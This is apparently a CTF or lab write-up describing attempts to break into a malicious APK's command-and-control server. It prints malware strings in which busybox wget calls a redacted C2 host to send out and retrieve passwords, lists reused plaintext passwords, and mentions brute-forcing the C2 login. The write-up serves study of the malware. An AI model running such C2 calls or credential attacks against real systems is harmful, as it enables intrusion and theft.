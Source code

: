 ### Attempting to Find Access

#### Basic Attempts

- Tried to do directory traversal through the url

#### SSH Attempt(s)

Tries using Bitnami's credentials, but needed an ssh key, may look to see if I can steal one from the public web server if cannot find way in.

![sshattempt](images/screenshots/c2sshattempt.png)

#### Running with Wireshark

Ran the app while having wireshark running, did not have anything interesting occur I didn't find a single call to the c2, all were to github. This may have been in part due to some internet shenanigans from earlier (internet has been up and down all night)

#### Strings in helper.prog file that's retrieved

> 0008cea5	./busybox wget http://REDACTEDIP:6932/upload?pass=$newpass&payload=test 
	"./busybox wget http://REDACTEDIP:6932/upload?pass=\$newpass&payload=test \n"	ds

> 0008ce51	newpass='cat retpass?prepass=	"newpass='cat retpass?prepass="	ds

> 0008ce14	./busybox wget http://REDACTEDIP:6932/retpass?prepass=	"./busybox wget http://REDACTEDIP:6932/retpass?prepass="	ds

Okay, so maybe they've reused credentials on this prepass, if not, I'm going to try fuzzing it.

Credentials that were tried and failed:

1. overthehill7 (android app zip)
2. dreamer1 (jricho's pass)
3. BkmuowNTohD5 (bitnami)

Well time to start a fuzzing attempt while searching for a new method of access.

##### Brute-forcing the pass

While I was thinking of new ideas, I ran a custom py-script made for potentially discovering the password. This was not successful but was running on the my C2 whilst waiting for any new ideas for getting access. (This didn't lead anywhere, but section below was successful!) I figured it was worth a try, if C2 ended up getting blocked, I just burn the ip and get it a new one (never happened).

### Discovering a Massive Oversight

It was brought to my attention, that in my tired state I never bothered directly running the files that are fetched in the anarf-signup-text APK ([helper.prog](files/exfiled-files/helper.prog) and [busybox](files/exfiled-files/busybox))

